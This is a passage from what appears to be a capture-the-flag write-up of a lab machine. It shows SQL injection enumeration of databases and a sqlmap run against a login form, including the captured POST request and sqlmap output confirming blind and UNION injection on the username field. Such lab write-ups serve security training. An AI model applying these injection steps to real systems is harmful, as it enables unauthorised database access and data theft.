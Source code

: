 ![image-20210906203403105](https://0xdfimages.gitlab.io/img/image-20210906203403105.png)

I can list the databases with a query to the `information_schema` DB:

![image-20210907094512931](https://0xdfimages.gitlab.io/img/image-20210907094512931.png)

There’s two DBs in there, `information_schema` and `writer`. That’s not immediately obvious, but it’s just jamming all the rows together. I can make that a bit more readable with `group_concat`:

![image-20210907094715089](https://0xdfimages.gitlab.io/img/image-20210907094715089.png)

#### sqlmap

I could continue manually, but `sqlmap` also works here. I’ll save one of the requests to login, and make sure there’s no injection in it:

```

POST /administrative HTTP/1.1
Host: 10.10.11.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://10.10.11.101
DNT: 1
Connection: close
Referer: http://10.10.11.101/administrative
Upgrade-Insecure-Requests: 1

uname=admin&password=password

```

Now I can pass that to `sqlmap`:

```

oxdf@parrot$ sqlmap -r login.req
...[snip]...
got a refresh intent (redirect like response common to login pages) to '/dashboard'. Do you want to apply it from now on? [Y/n] n
[13:11:24] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[13:11:24] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:11:24] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:11:35] [INFO] POST parameter 'uname' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[13:11:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:11:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:11:40] [INFO] target URL appears to be UNION injectable with 6 columns
[13:11:41] [INFO] POST parameter 'uname' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'uname' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
---
Parameter: uname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```